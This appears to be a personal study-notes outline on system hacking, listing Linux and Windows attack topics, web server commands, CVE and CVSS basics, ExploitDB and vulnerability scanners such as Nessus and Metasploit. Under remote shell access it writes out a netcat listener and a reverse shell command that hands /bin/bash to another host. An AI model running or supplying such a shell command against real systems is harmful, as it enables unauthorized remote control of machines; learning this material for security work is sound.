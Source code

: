 - System hacking is defined as the compromise between computer systems and software to access the target computer and steal or misuse their sensitive information.
- Linux System Hacking
	- Hack Linux using the shadow file.
	- ssh key leak
	- Remote code Execution
	- privilege Escalation
	- bug on kernel
- Window system hacking
	- fundamental of window
	- DLL Hijacking
	- Powershell Scripting and usage
	- managing service, Users
	- active directory system
- Remote shell access(bind shell, reverse shell) payload
	- netcat -lvp 2222 
	- netcat 192.168.1.1 2222 -e /bin/bash
- payload (revshells.com)

- web server (whatweb http://google.com)
	- Apache server (sudo systemctl start apache2)
	- Nginx Server (sudo systemctl status nginx          sudo systemctl status nginx )
	- Python Server (python3 -m http.server 9090)
	- Microsoft IIS
	- Ruby on Rails
	- LiteSpeed
___

- CVE (Common Vulnerabilities and Exposures)
	- Common Vulnerability Scoring System (CVSS)  (0.0-10.0)
	- MITRE Corporation -----     MITRE ATT&CK Framework:
	- CVE-YEAR-ID  (CVE-2019-22321)
- ExploitDB  (offsec)     [https://exploit-db.com]     [CVE - Search CVE List (mitre.org)](https://cve.mitre.org/cve/search_cve_list.html)     SearchSploit
- Common Vulnerability Assessment Tools
	- Nessus   (https://www.tenable.com/products/nessus)
	- Acunetix
	- OpenVAS
	- Nmap with NSE
- Metasploit